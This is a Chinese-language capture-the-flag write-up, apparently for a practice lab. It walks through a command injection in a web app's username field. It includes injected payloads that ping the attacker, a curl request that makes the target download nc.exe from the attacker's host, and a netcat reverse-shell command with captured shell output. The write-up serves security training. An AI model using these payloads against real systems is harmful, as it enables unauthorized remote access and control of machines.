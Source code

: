 ```

验证：
在攻击机开启tcpdump监听所有icmp包
```
tcpdump -i tun0 icmp
```

修改用户名payload为：
```admin_test | ping 10.13.21.169```

如果监听能收到ping包，说明我们的命令注入成功

成功收到ping包：
```
┌──(root💀kali)-[~]
└─# tcpdump -i tun0 icmp                                                                                                                                                                                                                 1 ⨯
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
09:36:08.012297 IP 10.10.48.179 > 10.13.21.169: ICMP echo request, id 1, seq 13, length 40
09:36:08.012335 IP 10.13.21.169 > 10.10.48.179: ICMP echo reply, id 1, seq 13, length 40
09:36:09.008655 IP 10.10.48.179 > 10.13.21.169: ICMP echo request, id 1, seq 14, length 40
09:36:09.008693 IP 10.13.21.169 > 10.10.48.179: ICMP echo reply, id 1, seq 14, length 40
09:36:10.024224 IP 10.10.48.179 > 10.13.21.169: ICMP echo request, id 1, seq 15, length 40
09:36:10.024241 IP 10.13.21.169 > 10.10.48.179: ICMP echo reply, id 1, seq 15, length 40
09:36:11.047680 IP 10.10.48.179 > 10.13.21.169: ICMP echo request, id 1, seq 16, length 40
09:36:11.047696 IP 10.13.21.169 > 10.10.48.179: ICMP echo reply, id 1, seq 16, length 40
```

把nc.exe传到靶机，以便我们反弹shell
```
curl -H "Cookie:token=eyJ1c2VybmFtZSI6ImFkbWluIiwiY29va2llIjoiZWRkYjkzY2UxODY5OTkwZDMyY2Y3ZWMzYTQyYWQxYzgifQ==" -XPOST http://10.10.48.179/profile -d 'username=asd | powershell curl 10.13.21.169:8000/nc.exe -o nc.exe'
```

另起一个窗口监听
``` nc -lnvp 4242 ```

靶机触发payload:
```
admin1 | nc.exe 10.13.21.169 4242 -e powershell
```

收到反弹shell
```
┌──(root💀kali)-[~]
└─# nc -lnvp 4242       
listening on [any] 4242 ...
connect to [10.13.21.169] from (UNKNOWN) [10.10.48.179] 50099
Windows PowerShell 
Copyright (C) Microsoft Corporation. All rights reserved.
